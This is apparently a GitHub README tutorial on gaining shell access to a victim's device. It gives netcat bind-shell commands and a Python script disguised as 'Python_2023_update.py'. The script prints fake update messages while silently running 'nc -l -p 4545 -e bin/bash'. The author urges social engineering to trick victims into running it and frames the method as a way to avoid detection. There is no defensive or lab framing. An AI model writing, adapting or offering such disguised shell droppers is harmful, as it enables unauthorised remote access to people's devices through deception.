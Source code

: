 # Hacking-with-Netcat-and-Python
In this method, with the help of [Netcat tool](https://nmap.org/ncat/) you can create a [reverse shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/) on the victims device, and if you are on the same network you can easily access it. But the problem here is that you cannot always have access to the victims device to execute the ***netcat command*** soo, I got an idea, what if you write a python script which will automate the command for you, and if you add some fancy code that the victim will see on his device before creating a shell, that makes it more appealing. So in this post, I will share this method with you.

## Is it my idea ??
 I think, I got this idea while solving the machines/box. Where, in any input box if you type a command that lets you have a reverse shell on the targets website and you get a shell access on the webserver. All I did was just overthink and take the idea to a next level.

## A Personal note from writer.
  To successfully execute this attack you will need your own research and a little knowledge about [Social Engineering](https://www.imperva.com/learn/application-security/social-engineering-attack/). Also this is my first time creating a proper Github post, soo plz let me know if there is anything missing or something, I did wrong. 

 ## Pre-Installed stuff
 - [Python](https://www.python.org/downloads/) ( on both device )
 - [netcat](https://nmap.org/download.html) ( on both device )

# Method
Its a simple but very effective way that a hacker might use to hack their Target. In this type of attack, the attacker will be on your same network as you and send a python script that if you execute, will open a shell on a certain port that the attacker might connect to and try to do anything on your device. Lets see how its Done...

First Lets understand how to create a Reverse shell with Netcat command, Also if you get any errors plz check the netcat manual or do some research.

## How to create a basic Reverse Shell

***Victim's Device :***
        
  First you need netcat installed on your victim's device, if it's an Android or IOS then install it via Termux or iSH, and if it's Win or Mac install it through [nmap website](https://nmap.org/download.html) (netcat is pre-installed in linux). After installing netcat you just have to open a port where your device will connect (in this example the port will be "4545") and after connection, with the "e" flag we will tell the device which file to execute.
```
nc -l -p 4545 -e bin/bash
```

***Target Device :***

  On your device you also need netcat installed, then as you know the port which is open you can directly connect on it. To connect you must also know the target's IP.
```
nc <IP> 4545
```

And **congratulation** you're now connected to your target device. But, there are chances that target might find it and try to interupt in between, To avoid that we can try my method.

# My Method

For this you need to create a python script which will run this netcat command in the background so the victim will not see it and we can do our work, Also we will add some text that will be displayed so the victim thinks that this is some thing genuine and their for we will also name the file "Python_2023_update.py" you can do [social engineering](https://www.imperva.com/learn/application-security/social-engineering-attack/) to know what kind of files victim is most likely to accept and open.

```
import os
print("Python is updating, Please wait")
os.system("nc -l -p 4545 -e bin/bash")
print("Python is upto date")
```

You now have the the file, you just have to send it to your victim and trick him into opening/run it ( if you don't know how to do it, try Social Engineering ). Ater the target executes the file, you can connect to the port from your device and exploit it. 
